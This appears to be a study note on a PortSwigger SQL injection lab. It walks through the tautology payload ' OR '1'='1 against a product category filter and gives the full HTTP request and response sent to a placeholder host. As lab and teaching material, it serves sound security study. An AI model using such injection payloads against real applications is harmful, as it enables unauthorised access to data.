

## Crafting the SQL Injection Payload

To exploit the SQL Injection vulnerability, we need to craft a payload that will alter the behavior of the SQL query. The goal is to make the query return all products, regardless of the category.

### Basic SQL Injection Techniques

One common technique is to use a union-based SQL Injection. This involves appending a `UNION` statement to the original query to combine the results of two separate queries. However, in this case, we can simply manipulate the existing query to achieve our goal.

### Manipulating the Category Filter

To make the application display all products, we can inject a condition that is always true. For example, we can inject the following payload:

```
' OR '1'='1
```

This will cause the SQL query to become:

```sql
SELECT * FROM products WHERE category = '' OR '1'='1';
```

Since the condition `'1'='1'` is always true, the query will return all rows from the `products` table.

### Full HTTP Request and Response

Let's look at the full HTTP request and response to understand how the payload is injected and processed by the server.

#### HTTP Request

```http
POST /filterProducts HTTP/1.1
Host: vulnerable-app.example.com
Content-Type: application/x-www-form-urlencoded
Content-Length: 33

category=%27+OR+%271%27%3D%271
```

#### HTTP Response

```http
HTTP/1.1 200 OK
Content-Type: text/html; charset=UTF-8
Content-Length: 12345

<!DOCTYPE html>
<html>
<head>
    <title>Product List</title>
</head>
<body>
    <h1>All Products</h1>
    <ul>
        <!-- List of all products -->
    </ul>
</body>
</html>
```

### Explanation of the Headers

- **Content-Type**: Specifies the media type of the resource. In this case, it is `text/html`.
- **Content-Length**: Indicates the size of the entity-body in bytes.

### Diagram of the Attack Chain



---
<!-- nav -->
[[Web Security (PortSwigger)/02-SQL Injection/02-Lab 1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data/02-Common Pitfalls and Mistakes|Common Pitfalls and Mistakes]] | [[Web Security (PortSwigger)/02-SQL Injection/02-Lab 1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data/00-Overview|Overview]] | [[Web Security (PortSwigger)/02-SQL Injection/02-Lab 1 SQL injection vulnerability in WHERE clause allowing retrieval of hidden data/04-How to Prevent  Defend Against SQL Injection|How to Prevent  Defend Against SQL Injection]]
